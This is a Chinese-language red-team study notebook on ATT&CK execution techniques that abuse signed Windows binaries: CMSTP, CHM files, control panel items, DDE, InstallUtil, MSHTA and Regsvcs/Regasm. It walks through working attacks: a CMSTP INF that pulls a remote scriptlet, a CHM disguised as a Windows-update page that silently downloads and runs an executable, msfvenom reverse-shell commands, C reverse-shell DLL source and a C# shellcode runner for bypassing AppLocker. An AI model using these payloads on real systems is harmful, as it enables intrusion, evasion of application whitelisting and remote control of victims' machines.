# Execution

## CMSTP

CMSTP是Windows的重要组成部分，主要作用是与Microsoft连接管理器配置文件安装程序关联的二进制文件。它接受INF文件，这些文件可以通过恶意命令武器化，以脚本（SCT）和DLL的形式执行任意代码。它是一个受信任的Microsoft二进制文件，位于以下两个Windows目录中。

```
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

微软的官方文档：

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp

基于CMSTP的方法有很多种

### 使用CMSTP绕过AppLocker

首先生成一个反弹shell的dll



在windows上写入一个INF文件，内容为：

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\test.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="test"
ShortSvcName="test"
```

其中RegisterOCXSection的内容为dll的路径（使用UnRegisterOCXSection可以支持远程文件）

```
[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection
 
[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http://10.0.0.2/tmp/powersct.sct
```

然后再MSF上开启监听



通过cmstp.exe执行INF



此时dll内容成功被执行，反弹shell至MSF



作者还提到了一种方法是执行SCT文件，首先通过INF文件使用HTTP远程加载SCT文件，使用的还是WScript

```
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Pentest"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
	<!-- Proof Of Concept - @netbiosX -->
	<script language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & testcmstp.exe");
		]]>
</script>
</registration>
</scriptlet>
```

注：这里是直接执行的EXE文件，还有一种方法可以在本机Powershell被禁用的情况下用作执行powershell代码的替代方案：https://gist.github.com/NickTyrer/0604bb9d7bcfef9e0cf82c28a7b76f0f/

然后使用HTTP服务挂起来，MSF生成一个反弹shell的EXE



然后使用INF文件调用SCT执行EXE文件。

```
cmstp.exe /s testhttp.INF
```

执行之后成功执行testcmstp.exe文件反弹shell



但是这是绕过APPLocker的方法，实际上这两个DLL和EXE文件还是需要免杀才能在真正的环境下绕过防护软件，此前Micropoor在GitHub上更新过的。

原文链接：https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/

## Command-Line Interface

就是cmd…好像没啥说的？

## Compiled HTML File-T1223

CHM文件英语“Compiled Help Manual”的简写，即“已编译的帮助文件”。CHM是微软新一代的帮助文件格式，利用HTML作源文，把帮助内容以类似数据库的形式编译储存。

CHM文档实际是HTML文档经过编译之后的文件格式。我们可以通过CHM文件来触发后门。

### 命令执行

首先生成一个HTML文件，内容为：

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

使用EasyCHM生成CHM格式文件





打开TestCHMCalc.CHM可以看到弹出了计算器，也就是说已经执行了calc.exe命令。



### MSF shell

使用MSF生成EXE文件(实际上用powershell的base64反弹shell语句应该也是可以的，没测)



使用HTTP服务和Powershell远程加载和下载EXE文件，将反弹语句插入CHM

```
powershell -WindowStyle hidden -nologo -noprofile -ep bypass IEX(New-Object Net.WebClient).DownloadFile('http://<ip address>/testchmshell.exe','..\\testchmshell.exe');&cmd/c ..\\testchmshell.exe
```

最终的chm内容为（可以适当加一些迷惑性数据）

```html
<HTML>
<TITLE>Check for Windows updates from Command Line</TITLE>
<HEAD>
</HEAD>
<BODY>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",cmd.exe,/c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -nologo -noprofile -ep bypass IEX(New-Object Net.WebClient).DownloadFile('http://<ipaddress> /testchmshell.exe','..\\testchmshell.exe');&cmd/c ..\\testchmshell.exe">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</BODY>
</HTML>
```

然后使用EasyCHM编译成CHM文件



在目标主机点击即可反弹shell



但是这个调用的是CMD，执行的时候会出现CMD的黑色框，后来从网上看的改进版的使用的是rundll32.exe可以避免黑框。无论是cmd还是Rundll32都是调用的Powershell，如果Powershell被禁或者被杀可以尝试WSC，通过wscript运行文件反弹shell，这里不再演示。

## Control Panel Items-T1196

Control Panel Items是控制面板项目，是格式为.cpl的文件。在系统安装目录的system32下面有一系列.cpl文件,它们分别对应着控制面板中的项目

CPL文件是Windows可执行性文件（本质是一个dll文件），但不属于可以直接独立运行的文件，通常由shell32.dll打开。

同时也可以通过VBS脚本或者是js来调用。

生成cpl文件的方法和dll文件相同，只需要将生成的dll后缀名改成cpl即可。

**执行代码：**

例：使用VC++新建一个dll项目生成一个dll.

```c++
#!c
#include "stdafx.h"
#include "Windows.h"
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            WinExec("calc.exe", SW_SHOW);
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

比如这个例子中将代码build之后生成了cpldll.dll



改名成为cpldll.cpl之后双击执行了calc.exe(这里是在xp环境下，其他应该没啥区别)



**反弹shell：**

使用MSF生成cpl文件:

```
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.144.176 lport=4444 -f dll -o testcpl.cpl
```



然后转移到目标机器直接双击就会反弹shell回来





网上看到的文章中说msfvenom生成的文件可能存在程序兼容问题（本人没出现问题），所以提供了一个可以自己编译的代码，这里也贴一下。

```c++
#!c
#include "Windows.h"
#include <WinSock2.h>
#include <stdio.h>  
 
#pragma comment(lib,"WS2_32.lib")   
 
int reverse_tcp()
{
    WSADATA wsData;
        if(WSAStartup(MAKEWORD(2,2),&wsData))
        {
            printf("WSAStartp fail.\n");
            return 0;
        } 
 
        SOCKET sock = WSASocket(AF_INET,SOCK_STREAM,0,0,0,0);
        SOCKADDR_IN server;
        ZeroMemory(&server,sizeof(SOCKADDR_IN));
        server.sin_family = AF_INET;
        server.sin_addr.s_addr = inet_addr("192.168.127.132"); //server ip
        server.sin_port = htons(8888); //server port
        if(SOCKET_ERROR == connect(sock,(SOCKADDR*)&server,sizeof(server)))
        {
            printf("connect to server fail.\n");
            closesocket(sock);
            WSACleanup();
            return 0;
        } 
 
        u_int payloadLen;
        if (recv(sock,(char*)&payloadLen,sizeof(payloadLen),0) != sizeof(payloadLen))
        {
            printf("recv error\n");
            closesocket(sock);
            WSACleanup();
            return 0;
        } 
 
        char* orig_buffer = (char*)VirtualAlloc(NULL,payloadLen,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
        char* buffer = orig_buffer;
        int ret = 0;
        do 
        {
            ret = recv(sock,buffer,payloadLen,0);
            buffer += ret;
            payloadLen -= ret;
        } while (ret > 0 && payloadLen > 0);  
 
        __asm
        {
            mov edi,sock;   
            jmp orig_buffer; 
        } 
 
        VirtualFree(orig_buffer,0,MEM_RELEASE);   
}   
 
BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                      )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        reverse_tcp();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

参考链接：https://blog.csdn.net/weixin_34232617/article/details/87979961

## Dynamic Data Exchange-T1173

动态数据交换，简称DDE，使用DDE通讯需要两个Windows应用程序，其中一个作为服务器处理信息，另外一个作为客户机从服务器获得信息。

**说白了就是一个协议，用于服务端和客户端的数据交换。**

 

由网络上提供的文档等信息可以了解到这个协议的攻击手法主要集中在windows中的office工具中，比如Excel等。

在MSWord和MSExcel中可以使用DDE来执行命令，最初也是国外研究人员提出了通过DDE来绕过开启宏的限制。

首先新建一个Word文档

新建一个Word文档，通过**Ctrl+F9**添加一个域，然后修改域代码为

```
{ DDEAUTO "c:\\windows\\system32\\cmd.exe" "/k notepad.exe" }
```

“DDEAUTO”关键字指示Word这是一个DDE域，并且在打开文档时自动执行域代码。在域代码中，紧跟“DDEAUTO”关键字后面的是要执行的可执行程序的路径，后面跟随的是可执行程序的参数。

关键字除了DDEAUTO之外也可以使用DDE：

```
{ DDE "c:\\windows\\system32\\cmd.exe" "/k notepad.exe" }
```

不过DDE字段不会自动运行（右键输入的DDE代码选择域属性，勾选Preserve fomatting during updates）

这个文章里还提到了使用DDE插入Word文档进行反弹Empire shell的方式，环境中没有安装office，所以没有实验。

参考链接：https://www.freebuf.com/articles/system/153105.html

## Execution through API-T1106

一些工具可以通过windows API来执行二进制文件，例如Windows API  CreateProcess之类的函数将允许程序和脚本使用正确的路径和参数启动其他进程。

可用于执行二进制文件的其他Windows API调用包括：

```
CreateProcessA() and CreateProcessW(),
CreateProcessAsUserA() and CreateProcessAsUserW(),
CreateProcessInternalA() and CreateProcessInternalW(),
CreateProcessWithLogonW(), CreateProcessWithTokenW(),
LoadLibraryA() and LoadLibraryW(),
LoadLibraryExA() and LoadLibraryExW(),
LoadModule(),
LoadPackagedLibrary(),
WinExec(),
ShellExecuteA() and ShellExecuteW(),
ShellExecuteExA() and ShellExecuteExW()
```

## 未完成Execution through Module Load-T1129

可以指示Windows模块加载程序从任意本地路径和任意通用命名约定（UNC）网络路径加载DLL。这个功能使用的是系统中的NTDLL.dll。

攻击者可以使用此功能作为在系统上执行任意代码的方法。（？？？）

## Exploitation for Client Execution-T1203

这个主要说了通过一些软件，比如钓鱼页面、Office等还有Flash的漏洞等来执行。

## Graphical User Interface-T1061

图形用户界面（GUI）是与操作系统交互的常用方式。攻击者可以在操作期间使用系统的GUI，通常通过远程交互式会话（如远程桌面协议），而不是通过命令行界面，通过鼠标双击事件搜索信息和执行文件，Windows运行命令[ 1]，或其他可能难以监控的交互。

主要就是提到了通过例如RDP协议进行的执行命令。

## InstallUtil-T1118

InstallUtil是一个命令行实用程序，它允许通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。InstallUtil位于Windows系统上的.NET目录中：和InstallUtil.exe由Microsoft进行数字签名。

在系统中的位置是：

```
C:\Windows\Microsoft.NET\Framework64\vXXX\InstallUtil.exe
```

可以通过InstallUtil执行命令，可以算是基于白名单的一种执行方法。

官网有命令说明：

https://docs.microsoft.com/zh-cn/dotnet/framework/tools/installutil-exe-installer-tool

**使用InstallUitl执行shellcode反弹shell**

使用msfvenom生成shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.144.176 LPORT=4444 -f csharp > TestInstallUtil.cs
```



然后加入C#代码组合成能够编译的C#，已经有做好的框架：

https://gist.githubusercontent.com/lithackr/b692378825e15bfad42f78756a5a3260/raw/b049d539be7e84afa7abecf143ab393cb158322a/InstallUtil-Shellcode-cs



使用csc.exe编译成dll或者exe文件。

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x86 /out:TestInstallUtil.exe .\InstallUtilC.cs
```



然后使用InstallUtil.exe文件执行生成的TestInstallUtil.exe

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U .\TestInstallUtil.exe
```



反弹shell成功：



## Launchctl-T1152

MACOS

## Local Job Scheduling-T1168

主要说明了在Linux和MACOS下的定时任务命令crontab使用，可以在Linux下直接crontab -h查看使用帮助，或者参考网站上的使用方法：https://www.runoob.com/linux/linux-comm-crontab.html

## LSASS Driver-T1177

Windows安全子系统是一组用于管理和实施计算机或域的安全策略的组件。本地安全机构（LSA）是负责本地安全策略和用户身份验证的主要组件。LSA包括与各种其他安全功能相关联的多个动态链接库（DLL），所有这些功能都在LSA子系统服务（LSASS）lsass.exe进程的上下文中运行。

然而怎么执行？

## MSHTA-T1170

### 介绍：

Mshta.exe是一个执行Microsoft HTML应用程序（HTA）的实用程序。HTA文件后缀为.hta，全称是HTML APPlication。MSF已经自带利用的模块

可以直接使用MSF生成HTA文件：

```
msfvenom -p windows/shell/reverse_tcp lhost=192.168.144.176 lport=4444 -f hta-psh -o testhta.hta
```



生成的HTA文件内容：

```
<script language="VBScript">                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          </script>
```

然后可以通过mshta来执行，可远程执行，还有Koadic等工具也可以生成HTA文件。

### 直接使用MSF反弹shell：

MSF执行：

```
use exploit/windows/misc/hta_server
set srvhost 192.168.144.176
exploit
```



目标主机：

```
mshta http://192.168.144.176:8080/OaDQ6u.hta
```

## Powershell-T1086

提到了Empire、PowerSploit和PSAttack等框架，Powershell能执行的太多了，不写了。

## Regsvcs/Regasm-T1121

Regsvcs和Regasm分别是.NET服务安装工具和程序集注册工具。

Regsvcs（.NET服务安装工具）执行下列操作：

```
加载并注册程序集
生成注册类型库并将其安装到指定的COM+应用程序中
配置以编程方式添加到类的服务
```



Regasm（程序集注册工具）

​    程序集注册工具读取程序集中的元数据，并将必要的条目添加到注册表，这允许COM客户端透明的创建.NET Framework类。



这两个程序的利用一般是用来绕过APPLocker白名单的限制。不过默认情况下这两个命令是没有加入到环境变量里的，需要使用绝对路径来运行。



反弹shell：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.144.176 LPORT=4444 -f csharp > TestInstallUtil.cs
```

使用msfvenom生成shellcode（这里用的是上文中InstallUtil实验的shellcode，没区别）


然后加入C#代码组合成能够编译的C#，已经有做好的框架：

https://github.com/3gstudent/Bypass-McAfee-Application-Control--Code-Execution/blob/master/regsvcs.cs

```c#
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;

/*
Author: Casey Smith, Twitter: @subTee
License: BSD 3-Clause
Create Your Strong Name Key -> key.snk
$key = 'BwIAAAAkAABSU0EyAAQAAAEAAQBhXtvkSeH85E31z64cAX+X2PWGc6DHP9VaoD13CljtYau9SesUzKVLJdHphY5ppg5clHIGaL7nZbp6qukLH0lLEq/vW979GWzVAgSZaGVCFpuk6p1y69cSr3STlzljJrY76JIjeS4+RhbdWHp99y8QhwRllOC0qu/WxZaffHS2te/PKzIiTuFfcP46qxQoLR8s3QZhAJBnn9TGJkbix8MTgEt7hD1DC2hXv7dKaC531ZWqGXB54OnuvFbD5P2t+vyvZuHNmAy3pX0BDXqwEfoZZ+hiIk1YUDSNOE79zwnpVP1+BN0PK5QCPCS+6zujfRlQpJ+nfHLLicweJ9uT7OG3g/P+JpXGN0/+Hitolufo7Ucjh+WvZAU//dzrGny5stQtTmLxdhZbOsNDJpsqnzwEUfL5+o8OhujBHDm/ZQ0361mVsSVWrmgDPKHGGRx+7FbdgpBEq3m15/4zzg343V9NBwt1+qZU+TSVPU0wRvkWiZRerjmDdehJIboWsx4V8aiWx8FPPngEmNz89tBAQ8zbIrJFfmtYnj1fFmkNu3lglOefcacyYEHPX/tqcBuBIg/cpcDHps/6SGCCciX3tufnEeDMAQjmLku8X4zHcgJx6FpVK7qeEuvyV0OGKvNor9b/WKQHIHjkzG+z6nWHMoMYV5VMTZ0jLM5aZQ6ypwmFZaNmtL6KDzKv8L1YN2TkKjXEoWulXNliBpelsSJyuICplrCTPGGSxPGihT3rpZ9tbLZUefrFnLNiHfVjNi53Yg4='
$Content = [System.Convert]::FromBase64String($key)
Set-Content key.snk -Value $Content -Encoding Byte
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk regsvcs.cs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe regsvcs.dll 
[OR]
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe regsvcs.dll
//Executes UnRegisterClass If you don't have permissions
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U regsvcs.dll 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U regsvcs.dll
//This calls the UnregisterClass Method
*/
namespace regsvcser
{
    
    public class Bypass : ServicedComponent
    {
        public Bypass() { Console.WriteLine("I am a basic COM Object"); }
		
		[ComRegisterFunction] //This executes if registration is successful
		public static void RegisterClass ( string key )
		{
			Console.WriteLine("I shouldn't really execute");
			Shellcode.Exec();
		}
		
		[ComUnregisterFunction] //This executes if registration fails
		public static void UnRegisterClass ( string key )
		{
			Console.WriteLine("I shouldn't really execute either.");
			Shellcode.Exec();
		}
    }
	
	public class Shellcode
    {
        public static void Exec()
        {
            // native function's compiled code
            // generated with metasploit
            // executes calc.exe
            byte[] shellcode = new byte[193] {
			0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
			0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
			0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
			0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
			0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
			0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
			0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
			0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
			0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
			0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
			0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
			0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
			0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            // prepare data


            IntPtr pinfo = IntPtr.Zero;

            // execute native code

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;

        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
          UInt32 lpThreadAttributes,
          UInt32 dwStackSize,
          UInt32 lpStartAddress,
          IntPtr param,
          UInt32 dwCreationFlags,
          ref UInt32 lpThreadId
          );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
          IntPtr hHandle,
          UInt32 dwMilliseconds
          );
    }
}
```

直接替换上面代码中的shellcode部分，然后使用sn.exe生成密钥(关于sn.exe可以参考https://docs.microsoft.com/zh-cn/dotnet/framework/tools/sn-exe-strong-name-tool?redirectedfrom=MSDN)：



然后编译成exe或者dll文件，即可使用

```
C:\Users\Administrator\Desktop>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:testRegsvcs.dll /keyfile:key.snk testregsvcs.cs
```



直接使用regsvcs.exe运行dll文件

